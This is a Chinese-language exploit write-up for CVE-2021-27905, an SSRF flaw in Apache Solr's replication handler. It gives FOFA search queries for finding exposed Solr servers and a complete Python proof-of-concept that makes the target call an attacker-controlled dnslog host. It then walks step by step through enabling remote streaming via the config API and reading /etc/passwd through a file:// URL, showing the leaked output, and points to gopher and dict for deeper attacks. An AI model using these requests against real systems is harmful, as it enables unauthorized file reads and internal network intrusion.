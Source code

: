 

# CVE-2021-27905 | Apache Solr <= 8.8.1 存在SSRF漏洞





## 0x00 漏洞说明



在 Apache Solr <=8.8.2 中的 `ReplicationHandler`（通常注册在 Solr core 下的 `/replication` ）有一个 `masterUrl` （也称为 `leaderUrl` 别名）参数，用于指定将另一个 Solr core上的 `ReplicationHandler` 参数的索引数据复制到本地 `core` ，由于没有对输入的内容进行校验，攻击者可利用该漏洞在未授权的情况下，构造恶意语句，最后造成SSRF攻击。



## 0x01 影响版本



- <= Apache Solr 8.8.2



## 0x02 漏洞成因



1. 在Apache Solr 在进行 replication 操作时对传入的 masterUrl 参数 Solr 未对其做白名单过滤。
2. Solr 配置为主从模式，且为从(slave)服务器 (条件)



## 0x03 漏洞指纹



fofa:

```
app="Apache-solr"
title="Solr Admin"
```





## 0x04 POC & EXP



!FILENAME poc.py

```python
# CVE-2021-27905
# Apache solr ssrf

import requests
import urllib3
import json
import sys, getopt
urllib3.disable_warnings()




def title():
    print("[-------------------------------------------------------------]")
    print("[--------------      Apache Solr SSRF漏洞      ---------------]")
    print("[--------               CVE-2021-27905               ----------]")
    print("[--------use:python3 CVE-2021-27905.py -u url -d dnslog--------]")
    print("[--------              Author:Henry4E36            ------------]")
    print("[-------------------------------------------------------------]")

def commit():
    url = ""
    try:
        opt, agrs = getopt.getopt(sys.argv[1:], "hu:d:", ["help", "url=","dnslog="])
        for op, value in opt:
            if op == "-h" or op == "--help":
                print("""
            [-]   Apache Solr SSRF漏洞 (CVE-2021-27905)
            [-]   Options:
                     -h or --help      :   方法说明
                     -u or --url       :   站点URL地址
                     -d or --dnslog    :   DnsLog
                """)
                sys.exit(0)
            elif op == "-u" or op == "--url=":
                url = value
            elif op == "-d" or op == "--dnslog=":
                dnslog = value
            else:
                print("[-] 参数有误! eg:>>> python3 CVE-2021-27905.py -u http://127.0.0.1 -d dnslog")
                sys.exit()
        return url, dnslog

    except Exception as e:
        print("[-] 参数有误! eg:>>> python3 CVE-2021-27905.py -u http://127.0.0.1 -d dnslog")
        sys.exit(0)

def target_core(url):
    target_url = url + "/solr/admin/cores?indexInfo=false&wt=json"
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36"
    }
    try:
        res = requests.get(url=target_url,headers=headers,verify=False,timeout=5)
        core = list(json.loads(res.text)["status"])[0]
        return core
    except Exception as e:
        print(f"[!]  目标系统: {url} 出现意外！\n ",e)

def ssrf(core,dnslog):
    target_url = url + f"/solr/{core}/replication/?command=fetchindex&masterUrl=http://{dnslog}"
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36"
    }
    try:
        res = requests.get(url=target_url, headers=headers, verify=False, timeout=5)
        status = json.loads(res.text)["status"]
        if res.status_code == 200 and status == "OK":
            print(f"[!]  \033[31m目标系统: {url} 可能存在SSRF漏洞，请检查DNSLog响应！\033[0m")
        else:
            print(f"[0]  目标系统: {url} 不存在SSRF漏洞")

    except Exception as e:
        print(f"[!]  目标系统: {url} 出现意外！\n ", e)


if __name__ == "__main__":
    title()
    url ,dnslog = commit()
    core = target_core(url)
    ssrf(core,dnslog)
```





## 0x05 详细利用过程



首先，查看core_name值

```json
http://xxx:8983/solr/admin/cores?indexInfo=false&wt=json
```



其Response如下

```json
{
    "responseHeader": {
        "status": 0,
        "QTime": 0
    },
    "initFailures": {},
    "status": {
        "demo": {
            "name": "demo", //此处为core名称
            "instanceDir": "/var/solr/data/demo",
            "dataDir": "/var/solr/data/demo/data/",
            "config": "solrconfig.xml",
            "schema": "managed-schema",
            "startTime": "2022-03-19T21:42:18.968Z",
            "uptime": 77968
        }
    }
}
```







通过向solr API 发送 POST请求以设置 `enableRemoteStreaming`  为 `true` (URL路劲中包含core名称)

```json
POST:http://ip:8983/solr/demo/config


body:
{
    "set-property" :
    {
        "requestDispatcher.requestParsers.enableRemoteStreaming":true
    }
}
```





发送GET请求，构造恶意配置集以利用file://伪协议读取文件

```json
http://xxx:8983/solr/www/debug/dump?stream.url=file:///etc/passwd&param=ContentStreams
```



响应内容:

```json
{
    "responseHeader": {
        "status": 0,
        "QTime": 1,
        "handler": "org.apache.solr.handler.DumpRequestHandler",
        "params": {
            "param": "ContentStreams",
            "stream.url": "file:///etc/passwd"
        }
    },
    "params": {
        "stream.url": "file:///etc/passwd",
        "echoHandler": "true",
        "param": "ContentStreams",
        "echoParams": "explicit"
    },
    "streams": [
        {
            "name": null,
            "sourceInfo": "url",
            "size": null,
            "contentType": null,
            "stream": "root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/usr/sbin/nologin\nsolr:x:8983:8983::/home/solr:/bin/sh\n"
        }
    ],
    "context": {
        "webapp": "/solr",
        "path": "/debug/dump",
        "httpMethod": "GET"
    }
}
```





## 0X06 进阶利用思路：



**除此之外，还可以使用其他SSRF伪协议进行攻击，例如dict、gopher等**



https[:]//www.sqlsec.com/2021/05/ssrf.html#toc-heading-1



## 0x07 扩展链接



[Solr 参考指南](https://solr.apache.org/guide/6_6/index-replication.html)



[NVD CVE-2021-27905 报告](https://nvd.nist.gov/vuln/detail/CVE-2021-27905)



[手把手带你用 SSRF 打穿内网](https://www.sqlsec.com/2021/05/ssrf.html#toc-heading-1)



## 0x10 联系方式



作者 : BitWiki支持团队
